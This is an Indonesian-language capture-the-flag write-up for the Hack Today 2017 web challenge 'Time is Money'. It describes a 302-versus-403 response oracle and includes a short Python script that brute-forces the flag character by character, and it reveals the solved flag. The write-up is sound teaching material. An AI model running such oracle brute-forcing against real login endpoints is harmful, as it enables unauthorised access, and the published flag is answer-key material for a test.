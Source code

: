 # Hack Today 2017: Time is Money

**Category:** Web
**Points:** 65

## Write-up

- Tidak terdapat clue apapun pada misi ini sehingga kami mencoba untuk mengecek respon status kode yang dikirim.
- Karena kami sudah tahu bahwa flag berawalan strings “HackToday{” dan mendapat respon status kode 302, sedangkan apabila mengirimkan strings acak seperti “asd” respon yang didapat adalah 403, yang mengartikan bahwa strings awal yang kami kirim adalah valid.
- Langkah selanjutnya kami coba bruteforce tiap karakter yang ada menggunakan script berikut,

	import requests
	charset = "abcdefghijklmnopqrstuvwxyz0123456789_{}"
	password = "HackToday{"
	url = "http://sawah.ittoday.web.id:40137/"
	while(password[-1]!="}"):
		for i in charset:
			r = requests.get(url)
			payload = {'password': password+i, 'submit': 'Submit+Query'}
			r = requests.post(url, data=payload)
			if r.status_code==302:
				password+=i
				print password

Didapatlah flag : `HackToday{long_l000ng_flag_is_panjaaa44ng_panjaaanggg_b3ndeeeraaa}`.